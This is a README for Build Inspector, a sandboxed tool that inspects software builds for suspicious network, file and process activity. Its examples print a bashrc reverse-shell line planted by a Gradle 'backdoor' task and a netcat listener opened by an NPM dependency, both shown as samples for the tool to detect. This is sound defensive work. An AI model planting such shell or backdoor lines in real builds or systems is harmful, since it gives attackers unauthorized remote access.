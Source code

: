 # Build Inspector

[Build Inspector](https://github.com/srcclr/build-inspector) is a forensic sandbox for buliding source code and gives insight into what's happening during the build of a project. It's language and build system agnostic and is capable of inspecting network activities, file system changes, and running
processes. All build operations happen in a sandboxed environment without compromising the developer's machine.

## Requirements

- [Ruby](https://www.ruby-lang.org/en/downloads/) (2.2.3 recommended)
- [Vagrant](https://www.vagrantup.com/)

Once you have both Ruby and Vagrant installed, go ahead and install
the Sahara plugin, bundler and this project's dependencies.

```bash
vagrant plugin install sahara
git clone https://github.com/srcclr/build-inspector.git
gem install bundler
bundle install
```

## Running

First, make sure that you have the
[requirements](https://github.com/srcclr/build-inspector#requirements)
and you are inside the repository's directory.

```bash
cd build_inspector
```

Since this tool does not manage Vagrant for you, yet, you'll have to
do it yourself. This step will take a while the first time, but won't
be necessary again. Eventually, this step will be eliminated. Start
Vagrant and build the image:

```bash
vagrant up
```

Once vagrant is started, save a snapshot with:
```bash
vagrant sandbox on
```

### Usage

```
Usage inspector [options] <git repo path>
    -h, --help                       Display this screen
    -n, --no-rollback                Do not roll back the virtual machine state after running
    -v, --verbose                    Be verbose
    -c, --config <PATH>              Use configuration file at <PATH>, default=config.yml
    -p, --process <PATH>             Only process evidence at <PATH>
    -b, --branch <BRANCH>            Clone <BRANCH> from repository URL
        --url                        Git repo path is a URL
        --gem                        Perform a GEM based build
        --gradle                     Perform a Gradle based build
        --maven                      Perform a Maven based build
        --npm                        Perform a NPM based build
```

### Gradle Example

```bash
./inspector --gradle test-repos/TotallyLegitApp
```

The above project has a task called `backdoor` that adds a reverse
connect shell to `~/.bashrc`.

After running, you should see this at the bottom of the output:

```
changed: ~/.bashrc
--- /backup/root/.bashrc	2014-02-19 21:43:56.000000000 -0500
+++ /root/.bashrc	2015-11-08 13:07:40.579626388 -0500
@@ -97,3 +97,5 @@
 #if [ -f /etc/bash_completion ] && ! shopt -oq posix; then
 #    . /etc/bash_completion
 #fi
+
+bash -c "bash -i>&/dev/tcp/localhost/1337 0>&1 &disown"&>/dev/null
```

In addition, you'll have a file that looks like
`evidence-TotallyLegitApp-201523110032412.zip` which has all the
network and process activity, file system changes, and any new processes.

### Bundler Example

```bash
./inspector --gem test-repos/harmless-project
```

This bundler project has a gem that pings Google during its
installation.

Run it with the Build Inspector and you should see a list of domains
that the machine tried to connect to.

```
Hosts contacted:
  www.google.com (74.125.224.113)                                    1.3K
```

### NPM Example

```bash
./inspector --npm test-repos/ann-pee-am
```

Inspecting this NPM project should yield the following output:

```
The following processes were running during the build:
  - /bin/sh -i
  - nc -l 0.0.0.0 8080
```

That's because the NPM project depends on a module that opens a
persistent backdoor using `netcat`.

### Configuration

The tool monitors all network and file system activities. To ignore
hosts or exclude directories from the monitoring, create and add an
`config.yml` in the repository. The `config.yml` file is simply
a YAML file that looks like this:

```yaml
---

commands: bundle install --jobs 2

host_whitelist:
  - 10.0.2.2 # Vagrant's IP
  - 8.8.8.8 # Ignore DNS
  - bundler.rubygems.org
  - rubygems.global.ssl.fastly.net
  - rubygems.org

evidence_files:
  exclude:
    - /home/vagrant/.gem
  include:
    - /etc
```

There are examples for different build systems in the [configs](configs)
directory. You may copy the approriate configs for your build system
to the root of this project or you may write one from scratch.

## Reporting Suspicious Builds

Help us understand what threats are out there in the wild by submitting any suspicious builds you encounter. This helps us direct engineering efforts to better protect against emerging threats and also just makes us feel like we're helping.

To submit a suspicious build, just click this link to create a new issue:
[Suspicious Build Issue Submission](https://github.com/srcclr/build-inspector/issues/new?title=Suspicious%20Build%20Evidence&body=Where%20did%20you%20find%20this%20project%3F%0A%0AWhy%20do%20you%20think%20it%27s%20suspicious%3F%0A%0AAny%20other%20important%20details%3F%0A%0AHow%20are%20you%20doing%20today%3F).

Then, simply upload the evidence zip to the GitHub issue you just created. Thanks in advance!

## Troubleshooting

If you're having a problem, try running `rake vagrant:test` and ensure your environment is setup correctly.

### Gradle Build Fails with java.lang.OutOfMemoryError
A build may work on the host machine but fail with BuildInspector because the Vagrant virtual machine has less memory available than the host machine. There are two ways to work around this issue.

#### Option 1: Modify [Vagrantfile](Vagrantfile)
This is the most direct option. This file is used to setup some properties of the virtual machine. The relevant section is:
```ruby
config.vm.provider 'virtualbox' do |vb|
  vb.customize ['modifyvm', :id, '--natdnsproxy1', 'off']
  vb.customize ['modifyvm', :id, '--natdnshostresolver1', 'off']
  vb.memory = 1024
end
```

Simply adjust `vb.memory = 1024` to some other number such as `vb.memory = 2000` then rebuild the machine with `rake vagrant:rebuild`. The Java VM determines heap space as a portion of total memory available. Increasing the memory will also increase the heap space.

#### Option 2: Adjust Java VM Heap Size
If you're unable to adjust the memory requirements for the Vagrant virtual machine, you can try to tell Gradle to tell the Java VM to allocate more heap space. This can be done by adding the following command to your configuration:

```bash
echo org.gradle.jvmargs=-Xmx2G >> gradle.properties
```

For example, `gradle.yml` is:

```yaml
commands: gradle build
```

After adding this command it would be:

```yaml
commands:
  - echo org.gradle.jvmargs=-Xmx2G >> gradle.properties
  - gradle build
```

## Development

When you want to experiment, just do:
`vagrant sandbox on`

Then, make all the changes you want to the image. If you'd like to save the changes, do:
`vagrant sandbox commit`

Otherwise, you can wipe out the changes with:
`vagrant sandbox rollback`

There are also a number of Rake tasks:
```
rake vagrant:commit    # Commits the machine's state
rake vagrant:destroy   # Destroy Vagrant image
rake vagrant:halt      # Gracefully stop Vagrant
rake vagrant:rebuild   # Equivalent to a `vagrant destroy && vagrant up`
rake vagrant:reload    # Equivalent to a `vagrant halt && vagrant up`
rake vagrant:rollback  # Restores the previously committed machine state
rake vagrant:test      # Check environment to determine if build-inspector should work
rake vagrant:up        # Start Vagrant
rake vagrant:update    # Upgrade Vagrant image
```
